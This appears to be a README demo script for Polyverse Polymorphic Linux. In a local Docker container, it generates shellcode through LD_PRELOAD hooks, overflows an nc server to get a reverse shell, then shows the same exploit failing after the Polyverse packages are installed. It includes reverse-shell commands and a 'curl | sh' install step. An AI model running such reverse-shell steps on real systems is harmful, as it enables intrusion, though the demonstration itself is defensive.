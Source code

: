 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run a simple nc echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
    docker run --rm -it -p 8080:8080 alpine:3.7 sh
### (2) We'll need curl and wget
    apk update && apk add curl wget ca-certificates && update-ca-certificates
### (2) Get readhook components
    wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.1.1/basehook.so
    wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.1.1/fullhook.so
### (2) Start nc with readhook in front of libc
    LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" nc -l -p 8080 -e /bin/cat
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
    export shellCode=$(echo "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
### (2) Re-start nc with minimal readhook in front of libc
    LD_PRELOAD=/tmp/basehook.so nc -l -p 8080 -e /bin/cat
### (3) Send shell-code to the OVERFLOW for a reverse shell
    echo $shellCode | nc localhost 8080
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Replace standard packages with Polymorphic Linux
    sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
## Test Polyverse Polymorphic Linux
### (2) Re-start nc with minimal readhook
    LD_PRELOAD=/tmp/basehook.so nc -l -p 8080 -e /bin/cat
### (3) Try the shellCode with Polymorphic Linux
    echo $shellCode | nc localhost 8080
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
